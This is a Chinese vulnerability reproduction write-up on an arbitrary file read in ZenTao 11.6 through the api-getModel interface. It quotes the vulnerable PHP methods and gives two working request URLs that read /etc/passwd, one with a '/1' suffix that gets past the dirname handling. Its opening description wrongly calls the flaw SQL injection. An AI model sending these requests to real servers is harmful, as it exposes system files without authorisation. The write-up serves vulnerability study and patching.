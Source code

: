# 禅道 11.6 api-getModel-api-getMethod-filePath 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-1-20220313232358249.png)



## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

### 第一种方法

查看`module/file/moudel.php`下的`parseCSV方法`

```php
public function parseCSV($fileName)
    {
        $content = file_get_contents($fileName);
        /* Fix bug #890. */
        $content = str_replace("\x82\x32", "\x10", $content);
        $lines   = explode("\n", $content);

        $col  = -1;
        $row  = 0;
        $data = array();
        foreach($lines as $line)
        {
            $line    = trim($line);
            $markNum = substr_count($line, '"') - substr_count($line, '\"');
            if(substr($line, -1) != ',' and (($markNum % 2 == 1 and $col != -1) or ($markNum % 2 == 0 and substr($line, -2) != ',"' and $col == -1))) $line .= ',';
            $line = str_replace(',"",', ',,', $line);
            $line = str_replace(',"",', ',,', $line);
            $line = preg_replace_callback('/(\"{2,})(\,+)/U', array($this, 'removeInterference'), $line);
            $line = str_replace('""', '"', $line);

            /* if only one column then line is the data. */
            if(strpos($line, ',') === false and $col == -1)
            {
                $data[$row][0] = trim($line, '"');
            }
            else
            {
                /* if col is not -1, then the data of column is not end. */
                if($col != -1)
                {
                    $pos = strpos($line, '",');
                    if($pos === false)
                    {
                        $data[$row][$col] .= "\n" . $line;
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                        continue;
                    }
                    else
                    {
                        $data[$row][$col] .= "\n" . substr($line, 0, $pos);
                        $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                        $line = substr($line, $pos + 2);
                        $col++;
                    }
                }

                if($col == -1) $col = 0;
                /* explode cols with delimiter. */
                while($line)
                {
                    /* the cell has '"', the delimiter is '",'. */
                    if($line{0} == '"')
                    {
                        $pos  = strpos($line, '",');
                        if($pos === false)
                        {
                            $data[$row][$col] = substr($line, 1);
                            /* if line is not empty, then the data of cell is not end. */
                            if(strlen($line) >= 1) continue 2;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 1, $pos - 1);
                            $line = substr($line, $pos + 2);
                        }
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                    }
                    else
                    {
                        /* the delimiter default is ','. */
                        $pos = strpos($line, ',');
                        /* if line is not delimiter, then line is the data of cell. */
                        if($pos === false)
                        {
                            $data[$row][$col] = $line;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 0, $pos);
                            $line = substr($line, $pos + 1);
                        }
                    }

                    $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                    $col++;
                }
            }
            $row ++;
            $col = -1;
        }

        return $data;
    }
```



这里可以看到`以file为模块名、parseCSV为方法名去调用`读取文件



读取的文件名`$filename`参数可控，例如读取`/etc/passwd`



```plain
http://xxx.xxx.xxx.xxx/api-getModel-file-parseCSV-fileName=/etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-22.png)



- ✅注意以 .php .txt 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤

### 第二种方法



查看`module/api/moudel.php`下的`getMethod方法`



```php
public function getMethod($filePath, $ext = '')
{
    $fileName  = dirname($filePath);
    $className = basename(dirname(dirname($filePath)));
    if(!class_exists($className)) helper::import($fileName);
    $methodName = basename($filePath);

    $method = new ReflectionMethod($className . $ext, $methodName);
    $data   = new stdClass();
    $data->startLine  = $method->getStartLine();
    $data->endLine    = $method->getEndLine();
    $data->comment    = $method->getDocComment();
    $data->parameters = $method->getParameters();
    $data->className  = $className;
    $data->methodName = $methodName;
    $data->fileName   = $fileName;
    $data->post       = false;

    $file = file($fileName);
    for($i = $data->startLine - 1; $i <= $data->endLine; $i++)
    {
        if(strpos($file[$i], '$this->post') or strpos($file[$i], 'fixer::input') or strpos($file[$i], '$_POST'))
        {
            $data->post = true; 
        }
    }
    return $data;
}
```



这里与第一种大同小异，只是调用了不同模块的方法



看到 fileName  = dirname(filepath) 这段则为返回的目录名



所以读取`/etc/passwd`则需要写为`/etc/passwd/1`来绕过



```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-23.png)



